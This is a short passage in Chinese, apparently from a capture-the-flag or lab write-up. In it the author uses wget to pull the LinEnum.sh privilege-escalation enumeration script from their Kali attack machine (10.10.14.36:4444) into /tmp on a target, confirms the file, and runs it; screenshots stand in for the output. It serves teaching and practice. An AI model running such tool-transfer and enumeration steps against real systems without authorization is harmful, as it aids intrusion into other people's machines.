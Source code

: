 我把文件传输到机器上

```
wget http://10.10.14.36:4444/LinEnum.sh -O /tmp/LinEnum.sh
```

我把文件从我的 Kali 盒复制到机器的 temp 文件夹

![Screenshot-2020-05-17-at-22.49.38](img/b837f6f758a6abc9bfead79505cc431d.png)

然后，我导航到临时文件夹，检查文件是否被正确移动

![Screenshot-2020-05-17-at-23.17.45](img/c1853ca8d93559c030421311bd7446d1.png)

然后，我用

```
sh ./LinEnum.sh
```

![Screenshot-2020-05-17-at-22.52.07](img/6abb7eb07e5add38a501f7dd7c9e3add.png)
